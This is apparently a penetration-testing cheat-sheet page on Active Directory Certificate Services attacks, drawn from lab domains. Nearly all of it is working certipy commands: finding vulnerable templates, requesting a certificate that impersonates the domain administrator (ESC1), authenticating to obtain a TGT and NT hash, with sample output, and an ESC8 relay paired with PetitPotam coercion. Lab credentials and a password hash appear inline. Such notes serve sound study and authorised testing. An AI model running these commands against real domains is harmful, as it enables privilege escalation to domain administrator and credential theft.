 ```yaml
---
title: "AD CS"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


### ESC1

**Find vulnerable certificate templates :**
```sh
certipy find -u 'banking$'@retro.vl -p 'TestPass!2' -dc-ip 10.10.65.99
```

**Impersonate an admin :**
```sh
certipy req -username 'banking$'@retro.vl -password 'TestPass!2' -target-ip 'dc.retro.vl' -ca 'retro-DC-CA' -template 'RetroClients' -upn 'administrator@retro.vl'  -debug -key-size 4096


certipy req -username 'FRAJMP$'@heron.vl -hashes 6f55b3b443ef192c804b2ae98e8254f7 -target-ip '10.10.251.229' -ca 'heron-CA' -template 'HybridComputers' -upn 'Administrator@heron.vl'  -debug -key-size 4096 -dns heron.vl
```

Then you can transform the generated **certificate to** `**.pfx**` format and use it to **authenticate using   certipy** again:
```sh
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'retro.vl' -dc-ip 10.10.65.99
```

- Result : 
```sh
[*] Using principal: administrator@retro.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': aad3b435b51404eeaad3b435b51404ee:252fac7066d93dd009d4fd2cd0368389
```

### ESC8 :

```sh
certipy relay -ca "bruno-BRUNODC-CA" -target brunodc.bruno.vl -template KerberosAuthentication
```

```sh
petitpotam.py -d 'bruno' -u 'svc_scan' -p 'Sunshine1' 10.8.3.12 $t
```